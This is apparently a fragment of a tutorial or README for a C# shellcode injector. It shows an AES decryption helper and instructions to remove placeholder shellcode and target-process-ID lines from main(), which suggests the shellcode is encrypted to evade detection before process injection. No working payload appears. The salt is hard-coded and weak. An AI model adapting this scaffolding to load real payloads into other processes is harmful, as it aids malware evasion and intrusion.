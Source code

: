 ```
		}
		return resultStream.ToArray();
	}
}

public static byte[] AES_Decrypt(byte[] bytesToBeDecrypted, byte[] passwordBytes)
{
	byte[] decryptedBytes = null;
	byte[] saltBytes = new byte[] { 1, 2, 3, 4, 5, 6, 7, 8 };
	using (MemoryStream ms = new MemoryStream())
	{
		using (RijndaelManaged AES = new RijndaelManaged())
		{
			try
			{
				AES.KeySize = 256;
				AES.BlockSize = 128;
				var key = new Rfc2898DeriveBytes(passwordBytes, saltBytes, 1000);
				AES.Key = key.GetBytes(AES.KeySize / 8);
				AES.IV = key.GetBytes(AES.BlockSize / 8);
				AES.Mode = CipherMode.CBC;
				using (var cs = new CryptoStream(ms, AES.CreateDecryptor(), CryptoStreamMode.Write))
				{
					cs.Write(bytesToBeDecrypted, 0, bytesToBeDecrypted.Length);
					cs.Close();
				}
				decryptedBytes = ms.ToArray();
			}
			catch
			{
				Console.ForegroundColor = ConsoleColor.Red;
				Console.WriteLine("[!] Whoops, something went wrong... Probably a wrong Password.");
				Console.ResetColor();
			}
		}
	}
	return decryptedBytes;
}
```

- Remove the following lines in `main()`:

```
byte[] shellcode = new byte[] {0x00};


IntPtr alloc_size = new IntPtr(Convert.ToUInt32(shellcode.Length));

int processid = int.Parse(args[0]);
```
